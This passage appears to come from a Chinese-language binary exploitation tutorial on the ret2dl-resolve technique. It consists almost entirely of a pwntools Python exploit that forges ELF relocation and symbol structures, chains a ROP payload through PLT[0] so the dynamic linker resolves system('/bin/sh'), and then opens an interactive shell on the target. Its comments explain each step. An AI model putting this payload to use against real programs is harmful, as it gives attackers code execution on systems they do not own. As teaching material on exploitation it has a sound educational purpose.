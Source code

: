 ```python
    fake_reloc_arg = fake_Elf32_Rel_addr - relplt_addr                              # 计算伪造的reloc_arg

    fake_r_info = ((fake_Elf32_Sym_addr - dymsym_addr)/0x10) << 8 | 0x7             # 伪造r_info，偏移要计算成下标，除以Elf32_Sym的大小，最后一字节为0x7

    fake_st_name = new_stack_addr + 0x6c - dynstr_addr                              # 伪造的Elf32_Sym结构体后面接上伪造的函数名字符串system

    fake_Elf32_Rel_data = ""
    fake_Elf32_Rel_data += p32(write_got)                                           # r_offset = write_got，以免重定位完毕回填got表的时候出现非法内存访问错误
    fake_Elf32_Rel_data += p32(fake_r_info)

    fake_Elf32_Sym_data = ""
    fake_Elf32_Sym_data += p32(fake_st_name)
    fake_Elf32_Sym_data += p32(0)                                                   # 后面的数据直接套用write函数的Elf32_Sym结构体
    fake_Elf32_Sym_data += p32(0)
    fake_Elf32_Sym_data += p32(0x12)

    payload1 = ""
    payload1 += "AAAA"                                                              # leave = mov esp, ebp; pop ebp（esp+4，此处用于填充）
    payload1 += p32(plt0_addr)                                                      # 调用PLT[0]传入参数*link_map并调用_dl_fixup
    payload1 += p32(fake_reloc_arg)                                                 # 传入伪造的reloc_arg重定位并返回到system函数
    payload1 += p32(0)                                                              # system函数返回值
    payload1 += p32(binsh_addr)                                                     # /bin/sh字符串地址
    payload1 += "A"*0x3c                                                            # padding
    payload1 += fake_Elf32_Rel_data
    payload1 += "AAAA"
    payload1 += fake_Elf32_Sym_data
    payload1 += "system\x00\x00"
    payload1 += "/bin/sh\x00"

    p.send(payload1)
    sleep(3)
    p.interactive()
```

## 64位下的ret2dll-resolve
